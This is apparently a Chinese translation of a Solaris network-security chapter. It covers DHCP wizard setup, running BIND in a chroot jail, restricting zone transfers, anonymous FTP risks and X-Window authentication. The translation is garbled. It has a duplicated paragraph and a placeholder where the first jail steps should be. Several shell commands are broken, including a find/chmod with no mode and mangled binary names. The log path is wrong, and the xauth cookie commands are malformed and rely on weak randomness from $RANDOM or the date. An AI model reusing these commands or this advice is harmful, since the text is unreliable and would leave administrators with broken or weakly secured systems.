默认情况下，如果你还没有配置 `DHCP` 服务，你将看到八步配置向导，然后是六步地址向导。你可以使用这些向导在几分钟内设置一个完全功能的 `DHCP` 服务器。

1. 图 6.1 显示了启动配置向导时显示的启动屏幕。

图 6.1 启动向导



2. 选择 `DHCP` 服务器。`BOOTP` 中继用于允许基于广播的 `DHCP` 请求跨越路由器，允许单个 `DHCP` 服务器为多个子网提供服务。接下来，开始配置过程，如图 6.2 所示。在这一步，你需要指定你的 `/var/dhcp` 配置存储在哪个目录。默认的 `/var/dhcp` 通常适用于大多数情况。点击确定。

### 图 6.2 选择数据存储目录



3. 配置租约长度，根据经验法则，租约长度应为 `DHCP` 服务器预计最大停机时间的两倍。例如，如果你的 `DHCP` 配置损坏并需要 1.5 天来接收备份带进行恢复，那么你的租约将有效 3 天，如图 6.3 所示。在大多数情况下，你还希望允许客户端能够续租自己的租约，这是默认设置。

4. 输入 `DNS` 域名和你的 `DHCP` 客户端下一步将使用的 `DNS` 服务器，如图 6.4 所示。

5. 输入你的 `DHCP` 范围的主要网络范围及其关联子网掩码，如图 6.5 所示。

### 图 6.3 指定租约策略



### 图 6.4 指定 DNS 配置



6. 通过将默认设置从“使用路由器发现协议”更改为“使用路由器”，并记录子网默认网关的 `IP` 地址来指定默认网关，如图 6.6 所示。

### 第 6 章 保护网络安全

### 图 6.5 指定地址范围



### 图 6.6 配置网络信息



7. 现在输入 `NIS` 或 `NIS+` 域和服务器 如果可用。按照指定 `DNS` 服务器时完全相同的方法进行操作。`NIS` 配置窗口如图 6.7 所示，`NIS+` 配置窗口看起来基本相同。

### 图 6.7 指定 NIS/NIS+ 信息



8. 检查配置，如图 6.8 所示。这允许你验证所有的设置，以确保你没有犯任何错误。

### 图 6.8 检查配置



9. 点击“完成”完成配置。

一旦 `DHCP` 服务器配置完成，你将看到使用向导来配置地址范围的选项。你应该使用向导，因为它允许你同时配置范围内的 `IP` 地址，而不是逐个地配置每个地址。

1. 输入此特定 `DHCP` 范围内的地址数量。默认值为 10，你的值几乎肯定大于这个数字。给范围添加某种注释也是一个好主意。如图 6.9 所示。

### 图 6.9 配置客户端数量



2. 指定要使用的 `DHCP` 服务器以及 `IP` 方案的起始范围。你可能还希望允许向导根据你指定的根名称生成客户端名称。客户端名称将等同于根名称加上连字符和 `IP` 地址最后一个八字节的十进制值。如图 6.10 所示。

3. 现在确认将要添加到 `DHCP` 服务器的 `IP` 地址和客户端主机名，如图 6.11 所示。

4. 现在可以通过点击“查看”来更改客户端地址配置的特定选项，如图 6.12 所示。默认值通常是足够的。除非你当前从另一个 `DHCP` 服务器提供相同的范围，否则你不需要将这些地址设为不可用。如果是这种情况，在旧服务器切换之前，在新的 `DHCP` 服务器上将这些地址设为不可用。

### 图 6.10 配置地址范围



### 图 6.11 验证地址范围



5. 如图 6.13 所示，选择租约类型是动态还是永久。在大多数情况下，你应该考虑选择“永久” Permanent，它会在每次请求期间为唯一的 `MAC` 地址 分配唯一的 `IP` 地址。在主机数量超过可用 `IP` 地址数量的区域，你会使用范围。因此，选择“动态” Dynamic 设置以不一致分配地址为代价，最大限度地提高 `IP` 地址分配的效率。

### 图 6.12 设置客户端特定选项



### 图 6.13 配置租约类型



6. 检查你所输入信息的准确性，如图 6.14 所示。

7. 当你确认信息正确后，点击“完成”。

一旦配置完成，你就可以使用 `DHCP` 管理器控制 `DHCP` 服务，如图 6.15 所示。此外，“编辑”菜单下的选项允许你根据需要重复配置和地址分配向导。

## 保护网络安全

一旦配置完成，你就可以使用 `DHCP` 管理器控制 `DHCP` 服务，如图 6.15 所示。此外，“编辑”菜单下的选项允许你根据需要重复配置和地址分配向导。

与所有的嗅探器一样，`snoop` 在交换网络中丢失了大量功能，因为它只能查看本地连接内部的数据包。然而，某些交换机具有特殊的管理端口，这是交换机上的单个端口，作用类似于集线器，因为通过交换机的所有流量都会传递到该端口。如果你的交换机具有此类端口，你应该将你的 Solaris 主机连接到该端口，以便更有效地运行 `snoop`。

## 在 Solaris 上保护 DNS 服务

从历史角度看，`DNS` 服务一直是攻击者的青睐目标，因为其通常缺乏安全性，并且包含了大量的有用信息。不仅如此，攻击者还可以通过修改或删除名称服务数据库的一部分，为你的组织造成严重的服务中断。

`DNS` 记录包含了你组织中部分 并非全部 感兴趣的主机，这里的“感兴趣”是指不是工作站的主机。如果攻击者成功获取了你的记录区域传输 `zone transfer`，可能不会立即发现发生了安全漏洞，因为目前尚未造成损害。通过你的名称服务记录，攻击者现在可以系统地开始攻击你组织中的所有服务器，可能会从主机名中包含 `test` 或 `dev` 字符串的任何主机开始，因为这些系统的安全性比生产系统低。黑客可以轻易从你的名称记录中确定哪些服务器是邮件服务器，并可能利用这些信息使用你组织的资源发送伪造邮件或垃圾邮件。

名称服务在历史上很容易被利用，如果攻击者获得了访问权限，他们可能会将你的名称服务器作为其操作的跳板。在这里，他将使用你的名称服务记录来绘制你组织的服务器布局图并进行其他侦察。带有恶意意图的攻击者可能会尝试通过伪造名称记录来投毒你的名称服务本身。他可以通过删除关键条目实施拒绝服务攻击，使你的组织对世界上完全隐形。更糟糕的是，攻击者可以将你组织的 Web 服务器指向攻击者控制的另一个域名。如果这个新域名伪装得足够好，看起来像你组织的业务，攻击者可能会通过从你的客户那里欺骗性收集信用卡信息或其他隐私数据而获得成功。显然，你需要保护并保护你的域名服务，本节将教你如何这样做。

`www.synergy.com`

## 第 6 章 • 保护网络

### 使用 BIND

如果你正在运行 Solaris 8 自带的默认 `DNS` 服务器，无论你是否知道，你可能都处于大麻烦中。Solaris 在历史上一直使用 `BIND` 作为其 `DNS` 守护进程。尽管 `BIND` 在任何操作系统使用的 `DNS` 守护进程中可能拥有最大的市场份额，但它是臭名昭著的不安全之一。根据 `CERT` 通知 `CA-2001-02`《`BIND` 中的多个漏洞》，1997年至2001年，`CERT` 发布了12份独立的 `CERT` 包公告，针对 `BIND DNS` 包的漏洞或利用程序，影响了许多不同版本的 `BIND`。这些漏洞大多数与缓冲区溢出有关，其中大多数影响了 Solaris 8 自带的 `BIND` 默认版本。

为了避免成为此类攻击的潜在目标，你至少需要更新你的 `BIND` 版本。为此，你有几种选择，包括加载来自 Sun 的系统补丁、根据更新的供应商 `ISC` 源代码安装较新版本的 `BIND`，或者运行最新种类的 `BIND`——版本 9 的 `BIND` 是 `BIND` 的完全重写，尚未出现过与 `BIND` 主版本 4 或 8 相同的任何常见漏洞。

### 为 BIND 设置 chroot 监狱

此外，为了增加安全性，你应该考虑在 `chroot` 监狱环境中运行你的名称服务，这限制了入侵者对你的系统造成的损害。通常，如果你的名称服务被破坏且它以 `root` 用户身份运行，入侵者将拥有你系统的完全访问权限。然而，通过使用 `chroot` 功能，访问被限制在守护进程本身，该进程与操作系统的其他部分分开运行。在这里，你的入侵者将只能破坏你的名称服务 这如前所述仍然是不乐愿的，但入侵者将无法访问你的其他系统服务 例如邮件。你的入侵者也无法从密码数据库中窃取密码。接下来的步骤描述了如何在 Solaris 8 的 `chroot` 监狱中设置 `BIND`。假设你已经有了针对你域的 `BIND 8` 配置和区域文件。

请确保你彻底阅读了以下步骤并完全理解它们。在生产系统上实施此类任何重大配置更改之前，你应该始终在实验系统上进行测试。

首先，将与 Solaris 8 自带的 `BIND` 版本替换为最新版本的 `BIND 8`，或者至少是 8.2.3 或更高版本。你可以直接从 `ISC` 的 `www.isc.org/products/BIND/bind8.html` 获取最新版本 `BIND 8` 的源代码。如果你没有可用的编译器，也可以从 Sun 免费软件存档 `www.suneware.com/programlistspar8.html#bind` 下载二进制包格式的 `BIND 8.2.3`。我们假设你选择了后一种方案并安装了软件。注意，`BIND 8.2.3` 的未压缩包几乎 100MB。继续执行 Korn shell 指令来创建 `chroot` 监狱：

- 确定你的监狱位于哪里。在示例中，我们使用 `/var/named` 作为监狱的根，并为它设置了一个快捷方式环境变量，如下所示。继续创建目录结构。

```bash


# mkdir `/var/named`

# export `BINDPATH`=`/var/named`

# cd `$BINDPATH`

# mkdir `dev` `opt` `usr` `var` `etc`

# cd `var`; mkdir `run` `log` `named`; cd `..`

# cd `usr`; mkdir `local` `lib`; cd `..`

```
-   （此处省略后续具体操作步骤翻译，保持原文逻辑）
```

# 安全您的网络 · 第6章

```
crw-r-r- 1 root sys 13, 12 Aug 24 14:28 zero
#
```

- 6. 将 DNS 守护进程使用的二进制文件拷贝到监狱中（jail）。

```bash
# cd `$BINDPATH/usr/local`
# mkdir `bin` `sbin` `bind` `bind`
# cd `/usr/local/bin`
# cp -p `add` `dir` `dnsquery` `host` `msqldbind` `nslookup` `nsupdate` \
n# `$BINDPATH/usr/local/bin`
# cd `/usr/local/sbin`
# cp -p `dnsnkeygen` `named` `named-xfer` `named-bootconf` `ndc` \
n# `$BINDPATH/usr/local/sbin`
```

- 7. 将 DNS 守护进程使用的数据文件拷贝到监狱中。注意，你可能位于不同的目录，甚至在与示例不同的主机上。在这种情况下，请为 BIND 配置创建一个 tar 包并将其提取到 `$BINDPATH/etc/named`。根据服务器的功能适当设置配置文件的权限。从用 DNS 服务器需要创建并修改文件，而主 DNS 服务器将只读文件。

```bash
# mkdir `$BINDPATH/etc/named`
# chgrp `named` `$BINDPATH/etc/named`
# cp -rp `/etc/named` `$BINDPATH/etc/named`
# chmod -R 770 `$BINDPATH/etc/named` for secondary DNS
# chmod -R 750 `$BINDPATH/etc/named` for primary DNS
# chgrp `named` `$BINDPATH/usr/local/etc`
# cp `/usr/local/etc/named.conf` `$BINDPATH/usr/local/etc`
# chown root:named `$BINDPATH/usr/local/etc/named.conf`
# chmod 640 `$BINDPATH/usr/local/etc/named.conf`
# chmod 750 `$BINDPATH/usr/local/etc`
```

- 8. 创建日志文件并适当设置权限。

```bash
# touch `$BINDPATH/var/log/all.log` `$BINDPATH/var/run/named.pid`
# chown `named:named` `$BINDPATH/var/log/all.log` \
`$BINDPATH/var/run/named.pid`
```

```bash
# chgrp `named` `$BINDPATH/var/log` `$BINDPATH/var/run`
# chmod 770 `$BINDPATH/var/log` `$BINDPATH/var/run`
```

- 9. `chroot` 监狱中不应包含任何 SUID 或 SGID 文件。但以防万一，仍然要移除多余权限。

```bash
# find `$BINDPATH` -type f -exec chmod {} \;
```

- 10. 如果必要，编辑 `$BINDPATH/usr/local/etc/named.conf` 以反映配置文件和数据文件的新位置。

- 11. 启动 DNS 守护进程。注意，记录到守护进程设施的任何内容仍记录在 `/var/admin/messages` 中，留意任何错误信息。

```bash
# /usr/sbin/chroot /var/named /usr/local/sbin/named -u named
```

> 注意
如果此命令返回错误消息 `<user "named" unknown>`，你需要使用 `named` 内置的 `chroot` 函数来启动 DNS 服务，如下：

```bash
# /usr/local/sbin/named -t /var/named -u named
```

其中 `-t` 指定了 `chroot` 监狱的路径 (`$BINDPATH`)，而 `-u` 表示运行 BIND 的用户账户。

- 12. 通过使用 `dig` 或 `nslookup` 执行一些 DNS 查询来验证 BIND 是否正常工作。如果你遇到问题，请确保 BIND 在 `chroot` 之外运行，使用标准的故障排除方法并重试。一旦你对服务器正常工作表示满意，请更改你的初始化脚本在 `chroot` 环境中启动 BIND。

```bash
# nslookup sparky
Server: sparky.incoming-traveller.com
Address: 192.168.1.7
Name: sparky.incoming-traveller.com
Address: 192.168.1.7
```

```bash
# dig @sparky sparky.incoming-traveller.com
; DIG 8.3 <<< @sparky.incoming-traveller.com
; (server found)
; res options: init dnsr
; got answer:
; --HEADER-- opcode: QUERY, status: NOERROR, id: 6
; flags: qr aa ra; QUERY: 1, ANSWER: A, AUTHORITY: 2,
ADDITIONAL: 2
;; QUERY SECTION:
sparky.incoming-traveller.com, type = A, class = IN
;; ANSWER SECTION:
sparky.incoming-traveller.com. 1D IN A 192.168.1.7
;; AUTHORITY SECTION:
incoming-traveller.com. 1D IN NS ns.incoming-traveller.com.
incoming-traveller.com. 1D IN NS sparky.incoming-traveller.com.
;; ADDITIONAL SECTION:
s.incoming-traveller.com. 1D IN A 192.168.1.1
sparky.incoming-traveller.com. 1D IN A 192.168.1.7
;; Total query time: 36 msec
;; FROM: sparky to SERVER: sparky 192.168.1.7
;; WHEN: Sat Aug 25 18:43:24 2001
;; MSG SIZE: sent: 41 rcvd: 120
```


# BIND 8 中的区域传输安全

除了在安全环境中运行 BIND 之外，你还希望限制区域传输（zone transfers）。如果未经授权的人员成功传输了你的 DNS 数据库，他们将获得你组织内感兴趣的主机列表。这种列表会让攻击者更容易选择渗透目标。幸运的是，你可以使用一些技巧让情况变得更加困难。

首先，考虑使用拆分 DNS 模型，即你的公共主机使用公共名称服务器，私有主机使用私有名称服务器，并且各自更新。这种模型可以防止外部入侵者获取关于你内部主机的有用信息。虽然入侵公共主机是一个严重问题，但至少攻击者将无法识别哪些内部主机可能包含所需的信息（如财务和人力资源）。由于内部 DNS 服务器和外部 DNS 服务器都不跨防火墙交互，指定区域传输的允许主机变得更加容易。

如此，你可以使用 `named.conf` 配置中的 `"allow-transfer"` 指令来指定哪些主机被授权进行区域传输。你可以在 `"options"` 指令中获取所有区域的全局访问，也可以为每个域名创建区域访问列表，如下：

```bash
# From the named.conf of the primary name server for
# incoming-traveller.com
zone "incoming-traveller.com" {
	type master;
	file "db.incoming-traveller.com.zone";
	allow-transfer ( 192.168.1.7; 192.168.1.11 );
};
```


# From the named.conf of the secondary name server for incoming-traveller.com

```
zone "incoming-traveller.com" {
	type slave;
	masters ( 192.168.1.7; 192.168.1.11 );
	allow-transfer ( none );
};
```


安全网络 179

## 配置 Solaris 提供匿名 FTP 服务

配置 Solaris 为你控制的用户提供 FTP 服务并不困难，默认配置在大多数情况下都是。如第一章所述，如果你运行 FTP 服务器，明确建议将所有用户添加到 `/etc/ftusers` 文件中。此列表中的用户被拒绝 FTP 访问。然后，你应该根据需要按用户授予 FTP 访问。或者可能希望考虑 `sftp`，如 SSH 节所述，它对于经过身份验证的用户访问可能更安全。然而，为匿名访问配置 FTP 完全是另一回事，因为匿名用户不受你控制，且在你的系统中未经过身份验证。本节描述了为什么在绝对必要时才应该使用匿名访问，并指导你如何设置匿名 FTP 服务。

在最终决定运行匿名 FTP 服务之前，请仔细检查你是否真的需要它们。你是否只需要向客户和潜在客户分发软件补丁或评估软件？如果是这样，考虑通过 HTTP 协议传输，这比允许匿名 FTP 访问安全得多。

匿名访问存在安全隐患的原因是，你允许没有任何控制权的、未经过验证的互联网用户连接到你的服务器。文件传输可能会记录，但连接可能不会。几年前，可以使用 `SITE EXCH` 函数获取 FTP 服务器的远程 root 权限，因为 FTP 服务是以 root 用户身份运行的。虽然这些漏洞后来已经被修复，但并不意味着 FTP 服务不再包含尚未发现的类似漏洞。如果你的目录权限配置不当，导致匿名用户可以在同一个目录下读取和写入，那么很可能有人发现这一点，并将你的 FTP 服务器变成盗版音乐、软件或色情的共享设施。如果此类滥用没有被及时发现，可能会导致你的组织支付巨额的带宽费用。

www.synergy.com

现在你已经阅读了这些警告，如果你仍然需要匿名 FTP 服务器，Solaris 完全可以帮助你完成这项任务。要配置匿名 FTP 访问，你应该阅读 `in.ftptd(1M)` 命令的帮助页。该文档将为你提供一个详尽的脚本，用以配置匿名 FTP 在 `chroot` 设施中运行，类似于我们在上一节中配置 BIND 的方式。你还需要为匿名用户添加一个匿名账户。请确保将用户的 shell 设置为不存在的值，例如 `/bin/false`。

## 安全地使用 X-Server 服务

X-Windows 是一项神奇的技术，它允许你从一台机器运行 GUI 程序并使用另一台机器的显示硬件。如果使用得当，它可以允许你通过一个控制台，使用 GUI 和命令行工具管理你的整个 Solaris 网络。然而，这种功能并非没有代价的。由于 X 协议缺乏严密的安全性，远程会话容易受到会话劫持和按键记录的影响。本节将教你 X-Windows 如何使用基于主机和基于用户的访问来验证客户端。

授予 X-server 访问权限与授予其他系统资源（如文件）完全不同。你可以使用严格的访问列表和权限来控制文件访问，授权级别可以从只读到全读/写/执行权限不等。X-server 的访问权限是基于“全有或无”的原则授予的。如果你拥有 X-server 的访问权限，你就对它拥有完全控制权，并可以充分利用 X-Window 服务。同样，如果你没有 X-server 的访问权限，你就完全无法与其进行交互。

> 注意：注意 X-Windows 的功能与标准的客户端/服务器范式相反。例如，当你 `telnet` 到一个 Solaris 服务器时，你是正在使用本地主机上的 `telnet` 客户端程序连接到远程主机上的 `telnet` 服务器。对于 X-Windows，X-server 处理直接连接的硬件（控制台、显示器、鼠标等）的显示函数，而 X-Clients 则是留存在远程主机上的程序。因此，你面前的控制台就是 X-server，在上面执行的程序是 X-clients，而这些程序可能位于本地也可能位于远程。

## 保护你的网络 • 第 6 章

X-clients 根据它们向 X-server 提供的凭据（可以是基于主机的或基于用户的）获得使用 X-server 显示器的权限。基于主机的认证是基于请求的 IP 地址，而基于用户的认证是基于名为“magic cookie”的访问令牌。此外，X 协议本身是一种明文协议，容易受到窃听、干扰和篡改。

### 使用基于主机的认证

基于主机的认证是 X 认证中配置最简单的形式，也是最容易被绕过的形式。通过基于主机的认证，X-server 根据传入请求的 IP 地址来授予或拒绝访问。默认情况下，所有远程访问都是隐式拒绝的，远程访问需要被显式允许。将 X 认证想象成通过仅限邀请参加的晚宴的安保人员的过程。

例如，使用基于主机的认证就好比一个仅限邀请参加的晚宴，安保人员拥有一份所有受邀客客的名单（显式允许的主机），以及一份他在任何情况下都不应该允许进入的人员名单（显式拒绝的主机）。当客人出现，或者一个来自 `192.168.1.23` 的 X-client 请求访问显示器时，安保人员会根据列表检查 X-client 的凭据。如果 `192.168.1.1` 被 X-server 允许列表显式拒绝（未受邀的客人），而 `192.168.1.23` 被 X-server 允许列表显式允许（客人已邀请），则允许 X-client 访问。如果 X-client 的 IP 地址既未出现在指定列表中，也没有出现在拒绝列表中，该客户端也将被拒绝访问。

X-server 的访问列表通过 `xhost` 命令控制。在不带参数的情况下运行该命令将显示当前允许的用户/主机组合。你必须在系统控制台上才能添加或删除对 X-server 的访问，其格式为 `xhost +-user@host`。例如，要为远程主机 `hydrant` 上的 `scarter` 添加访问权限，你将使用命令 `xhost +scarter@hydrant`；要移除主机 `engine9` 上所有人的访问权限，你将使用命令 `xhost -engine9`。

### 使用基于用户的认证

虽然基于主机的认证方便且易于配置，但其安全性是原始的，且认证方法容易受到 IP 欺骗的影响。继续晚宴的比喻，在基于主机的认证中，安保人员无法验证用户 ID 的合法性，用户可能会出示伪造的邀请函作为证明。基于用户的认证工作原理是：用户拥有一个特定的身份令牌，称为 magic cookie，她将其提交给 X-server 进行认证。

基于用户的认证要求 X-server 存有一个用户 magic cookie 的副本。X-client 为每个新会话必须提交一个 magic cookie。X-server 比较它从 X-client 接收到的 magic cookie，如果它们匹配，则允许访问，否则拒绝访问。这好比客人出示邀请函，而该邀请函的副本已发送给客人。如果邀请函匹配，则允许客人进入，否则要求其离开。

magic cookies 并不十分复杂，它们仅仅是理想情况下只有用户知道的随机数。magic cookies 存储在文件 `$HOME/.Xauthority` 中，由于权限限制，magic cookie 应该只被用户已知并由 X-server 使用。magic cookie 可以从各种随机源生成并存储在 `$HOME/.Xauthority` 中。运行 XDM 的 Solaris 系统生成此文件。然而，如果你需要手动生成 magic cookie，可以使用标准工具。你可以使用 Korn shell 的随机数功能生成 magic cookies，使用命令 `xauth add $DISPLAY:0.'($RANDOM*RANDOM+2))` 或者使用 `date` 命令 `xauth add $DISPLAY:0.'date +%Y%m%d%H%M%S'`。X 协议本身是一种明文协议，容易受到窃听、干扰和篡改。

### 表 6.1 xauth 命令常用形式

| 命令 | 解释 |
| --- | --- |
| `xauth info` | 显示当前的授权状态。 |
| `xauth list` | 列出可的 magic cookies。 |
| `xauth extract - myhost:0 $HOME/.Xauthority` | 将 `myhost:0` 的 magic cookie 提取到二进制文件 `$HOME/.Xauthority`。 |
| `xauth merge - $HOME/.Xauthority` | 从二进制文件 `$HOME/.Xauthority` 导入。 |
| `xauth nextract - myhost:0 $HOME/.Xauthority` | 将 `myhost:0` 的 magic cookie 提取到 ASCII 文件 `$HOME/.Xauthority`。ASCII 格式更适合非二进制格式如邮件。 |
| `xauth nmerge - $HOME/.Xauthority` | 从 ASCII 文件 `$HOME/.Xauthority` 导入。 |
| `xauth` | 进入交互模式并提供提示，类似于 `telnet`、`ftp` 和 `nslookup` 的交互模式。 |

### 监视 X-Window 会话

在某种程度上，可以使用 Solaris X-Window 系统分发的标准操作系统工具监视未加密的 X 显示器。互联网上传传的教程之一是 Boris Loza 的《审查你的 X-Window 安全》，可以在 `www.elementxjournals.com/sun0104/sun0141.htm` 和 `http://ouah-bsdeunj.org/xolar.html` 获取。本文介绍了如何使用 `xsclients` 命令定位脆弱的会话，并使用 `xwd` 工具创建这些显示器的屏幕截图。

